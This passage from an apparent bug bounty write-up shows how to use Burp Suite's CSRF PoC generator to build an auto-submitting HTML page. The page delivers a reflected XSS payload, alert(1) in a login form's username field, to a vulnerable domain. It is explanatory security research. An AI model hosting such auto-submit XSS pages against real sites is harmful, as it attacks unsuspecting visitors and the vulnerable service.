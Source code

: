    Don't get confused, this vulnerability is not a CSRF. They simply coincide in the first step, which involves generating an HTML/JavaScript code that sends a specific request to a domain. In this case, what I wanted to achieve is to obtain an HTML/JavaScript code that can be hosted on a malicious website, and when a user accesses it, it automatically sends the request with the XSS to the vulnerable domain. This Burp option was designed to exploit CSRFs but can also be used for PoCs like the one I am showing in this post, and in general for any vulnerability that involves generating HTML/JavaScript code that sends a request.
   
3. I selected *Options -> Include auto-submit script* and then *Regenerate -> Test in browser*

   ![](/assets/images/2023-11-05-bug-bounty-6/csrf-poc-generator.png)
   
   So in this example the malicious HTML/JavaScript code is
   
   <div class="code-header">
      <button class="copy-code-button">
        Copy
      </button>
    </div>
   ```html
   <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
       <form action="https://example.com/login" method="POST">
         <input type="hidden" name="username" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
         <input type="hidden" name="password" value="securepassword123" />
         <input type="submit" value="Submit request" />
       </form>
       <script>
         history.pushState('', '', '/');
         document.forms[0].submit();
       </script>
     </body>
   </html>
   ```